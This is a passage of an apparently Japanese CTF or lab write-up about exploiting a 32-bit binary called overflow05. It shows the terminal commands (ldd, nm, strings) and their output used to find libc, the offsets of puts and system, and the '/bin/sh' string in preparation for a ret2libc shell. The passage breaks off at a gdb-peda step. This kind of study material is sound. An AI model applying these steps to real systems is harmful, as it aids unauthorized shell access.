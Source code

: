 ## libc関連のアドレス


### リンクしているライブラリをlddで調べる

```
saru@lucifen:~/pwn005$ ldd ./overflow05
        linux-gate.so.1 (0xf7fd4000)
        libc.so.6 => /lib32/libc.so.6 (0xf7ded000)
        /lib/ld-linux.so.2 (0xf7fd6000)
saru@lucifen:~/pwn005$
```

リンクされているのは/lib32/libc.so.6

### nmコマンドでlibc内のputs関数の相対アドレスを調べる

```
saru@lucifen:~/pwn005$ nm -D /lib32/libc.so.6 | grep "puts"
00065dc0 W fputs
00070260 W fputs_unlocked
00065dc0 T _IO_fputs
00067360 T _IO_puts
00067360 W puts
000fdaf0 T putsgent
000fc250 T putspent
saru@lucifen:~/pwn005$
```

0x00067360

### nmコマンドでlibc内のsystem関数の相対アドレスを調べる

```
saru@lucifen:~/pwn005$ nm -D /lib32/libc.so.6 | grep "system"
0003cd10 T __libc_system
00127190 T svcerr_systemerr
0003cd10 W system
saru@lucifen:~/pwn005$
```

0x0003cd10

### stringsコマンドでlibc内の「/bin/sh」と書いてある場所の相対アドレスを調べる

```
saru@lucifen:~/pwn005$ strings -tx /lib32/libc.so.6 | grep "/bin/sh"
 17b8cf /bin/sh
saru@lucifen:~/pwn005$
```

0x0017b8cf

### gdb-pedaでlibcがロードされている絶対アドレスを調べる
